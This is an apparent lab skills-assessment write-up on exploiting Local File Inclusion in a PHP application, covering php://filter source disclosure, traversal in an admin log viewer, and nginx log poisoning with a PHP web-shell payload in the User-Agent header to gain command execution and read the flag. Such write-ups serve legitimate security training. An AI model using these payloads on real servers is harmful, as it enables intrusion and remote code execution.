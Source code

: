 ## File Inclusion – Skills Assessment Write-up


### Objective

The objective of this assessment was to identify and exploit Local File Inclusion (LFI) vulnerabilities within the target web application, gain arbitrary code execution, and ultimately retrieve the flag.


### Reconnaissance

I began by browsing the target web application through the provided IP address and port.  

While navigating between different sections (e.g., *About*, *Contact*), I observed that the application generated **GET requests containing a `page` parameter**, which appeared to load different content dynamically:  

 - `http://<IP>:<PORT>/index.php?page=about`

 - `http://<IP>:<PORT>/index.php?page=contact`

This indicated that the parameter was responsible for including corresponding files on the server.

To test for potential Local File Inclusion (LFI), I attempted to manipulate the parameter by replacing its value with system files: `http://<IP>:<PORT>/index.php?page=/etc/passwd`.

I noticed:

- When I directly requested `/etc/passwd`, the application returned no visible output.  
  It can be assumed that the `include` function was executed, however, due to the application automatically appending `.php` and/or restricting the search to a predefined directory, the file could not be located and therefore no output was returned.

- When I attempted directory traversal (e.g., `../../../../etc/passwd`), the request was most likely intercepted by the application’s filter for `..` sequences, which resulted in the error message:  
  **Invalid input detected!**


### Source Code Disclosure via PHP Filters

Testing the inclusion mechanism with PHP wrappers revealed that the application was vulnerable to `php://filter` usage.  

Example request: `http://<IP>:<PORT>/index.php?page=php://filter/read=convert.base64-encode/resource=index`.

![](screenshots/1.png)

I specifically targeted the `index.php` file, since it serves as the core of the application, while the other pages (e.g., `about`, `contact`) are loaded dynamically through the page parameter. This could suggest that the restrictions on LFI exploitation (such as automatic `.php` appending and filtering for `..`) are most probably implemented directly in `index.php`, rather than globally across the application.

The response contained Base64-encoded output, which was also URL-encoded. After decoding the URL encoding first, and then applying Base64 decoding in **Burp Suite**, I successfully recovered the source code of `index.php`.

![](screenshots/2.png)

Relevant code snippet:

```php
if(!isset($_GET['page'])) {
    include "main.php";
}
else {
    $page = $_GET['page'];
    if (strpos($page, "..") !== false) {
        include "error.php";
    }
    else {
        include $page . ".php";
    }
}
```

Key observations:
 - Directory traversal using `..` was blocked.
 - A `.php` extension was automatically appended to included files.

Moreover, within the `index.php`, a commented-out reference pointed to an alternative path:

```php
	// echo '<li <a href="ilf_admin/index.php" Admin</a </li>';
```

This hinted at the presence of an admin panel under `/ilf_admin/`.


### Exploiting LFI in ilf_admin

Navigating to `ilf_admin/index.php` revealed a log viewer feature using the log parameter.

Example payload testing with the SecLists LFI wordlist to identify potential file inclusion vectors:

```bash
ffuf -w LFI-Jhaddix.txt:FUZZ -u 'http://<IP>:<PORT>/ilf_admin/index.php?log=FUZZ' -fs <baseline_response_size>
```

Among the tested payloads, one that proved successful was `http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../etc/passwd`.

![](screenshots/3.png)

This confirmed an exploitable LFI vulnerability without the directory traversal restrictions seen in the main page.


### Log File Poisoning to RCE

To escalate from LFI to Remote Code Execution (RCE), I attempted server log poisoning.

#### Step 1 – Identify Server

Using `curl -I`, the server was identified:

```bash
Server: nginx/1.18.0
X-Powered-By: PHP/7.3.22
```

By default, Nginx logs are located in `/var/log/nginx/`. To confirm this, I attempted to include the **Nginx access log** using the vulnerable `log` parameter:

```bash
http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log
```

The request successfully returned the contents of the log file, as shown below:

![](screenshots/4.png)

#### Step 2 – Inject Malicious Payload

I injected a PHP payload into the User-Agent header:

```bash
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison

curl -s "http://<IP>:<PORT>/ilf_admin/index.php" -H @Poison
```

#### Step 3 – Execute Commands

I then leveraged the LFI vulnerability to load the Nginx access log file, which had been previously poisoned with a PHP payload. To verify successful code execution, I appended `&cmd=id` to the request, which returned the server’s user information, confirming the exploit:

```bash
curl -s http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=id | grep uid
```

Response:

```bash
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

This confirmed remote command execution.


### Flag Retrieval

Using the established web shell, I listed the root directory (`ls /` command) and identified flag file:

```
http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=ls%20%2F
```

![](screenshots/5.png)

Finally, I retrieved the flag `<flag.txt>`:

```
http://<IP>:<PORT>/ilf_admin/index.php?log=../../../../../../var/log/nginx/access.log&cmd=cat%20%2F<flag.txt>
```

![](screenshots/6.png)


## Conclusion

The `page` and `log` parameters were vulnerable to Local File Inclusion (LFI). By leveraging this issue, I successfully escalated it into Remote Code Execution (RCE) through server log poisoning, which ultimately allowed me to retrieve the assessment flag.

This confirms the presence of a critical file inclusion vulnerability that could enable attackers to read sensitive files, execute arbitrary system commands, and fully compromise the server.


### Key Takeaways

- `php://filter` wrapper enabled source code disclosure of `index.php`  
- Directory traversal was restricted in the main page, but bypassed in the **ilf_admin** panel  
- LFI in log viewer allowed direct access to system files (`/etc/passwd`)  
- Log poisoning enabled execution of arbitrary PHP commands via the User-Agent header  
- Successful command execution led to retrieval of the flag file from the server root
